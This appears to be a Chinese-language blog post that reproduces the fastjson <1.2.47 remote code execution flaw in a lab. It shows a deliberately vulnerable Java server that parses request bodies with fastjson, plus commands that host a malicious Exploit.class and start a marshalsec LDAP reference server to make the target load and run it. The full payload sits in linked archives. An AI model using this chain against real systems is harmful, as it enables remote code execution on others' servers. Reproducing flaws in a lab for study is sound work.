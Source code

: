 ```yaml
---
title: fastjson<1.2.47 RCE 漏洞复现
slug: fastjson-under-1.2.47-rce
date: 2019-07-15 16:16:12
tags:
- Hacker
categories:
- Hacker
---
```



这两天爆出了 fastjson 的老洞，复现简单记录一下。

首先使用 spark 搭建一个简易的利用 fastjson 解析 json 的 http server。

<!--more-->

```java
package cn.hacktech.fastjsonserver;

import com.alibaba.fastjson.JSON;
import static spark.Spark.*;

public class Main {
    public static void main(String[] args) {
        get("/hello", (req, res) -> "spark server start success");
        post("/test", (req, res) -> {
            String payload = req.body();
            JSON.parse(payload);
            return "json payload：" + payload;
        });
    }
}
```

编译出来后，启动这个 jar，在 `/test` 这个 post 点即可 post json payload。

然后这里分两类：

1. 如果只是想检测漏洞是否存在，可以使用 dnslog 去检测
2. 利用的话，需要自己起一个恶意的 ldap 或者 rmi 服务

本机需要起一个 LDAP 服务和 http 服务

```
poc-->LDAP-->http
```

poc 会通过上面的路径去请求你的 http 服务上面的对应的 class 文件然后去解析执行这个 class

启动 LDAP 用的 marshalsec，会比较方便。

1. 在本目录下启动 http server 在 80 端口


```
python -m http.server 80
```

2. 启动 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit
```

后面的 Exploit 是指 Exploit.class 文件

3. 运行 PoC，它会请求 LDAP 服务，或者直接把 json payload post 到 `/test`

```
java -cp fastjson-1.2.47.jar; PoC
```

其中代码编译的话，直接执行 `javac the.java` 即可，不过 PoC.java 的编译需要引入 fastjson jar 包，运行 `javac -cp ./fastjson-1.2.47.jar PoC.java`

具体的细节可见[代码打包文件](https://www.lanzous.com/i4zzqej)

## 复现遇到一些坑

这次的这个洞是有 jdk 版本要求的。

最开始我在我本机测试通过，原因是因为它请求不到 class 的时候会去本目录下进行一个查找，也就是并没有经过 http 服务器。

所以想要复现这个漏洞的话，需要 target 主机上面的 jdk 版本有严格的要求，具体见下图

![](https://raw.githubusercontent.com/akkuman/pic/master/img/20190716164141951_25963.png)

所以建议复现流程是

## 建议复现流程

1. 起一个虚拟机专门用来运行我写的那个简易的 fastjsonserver，或者你可以直接在虚拟机上面执行 PoC，关键在于 target 机器的 jdk 版本。
2. 你可以在本机起 ldap/rmi 服务以及 http 服务，或者全部在虚拟机上运行也可以，但是一般真实情况下我们是在外部构造恶意的 ldap/rmi 以及 http server，所以建议这步放到虚拟机外运行。
3. 根据你的网络环境修改 PoC。
4. 然后 post payload 或者运行 PoC，即可看到虚拟机上弹出了计算器。

**低版本的java 8u112**
链接: https://pan.baidu.com/s/1Q3lGG2b4I8aTXpQbmvK2dw 提取码: 36mm

**复现视频链接**：[复现流程.zip](https://www.lanzous.com/i50ip3g)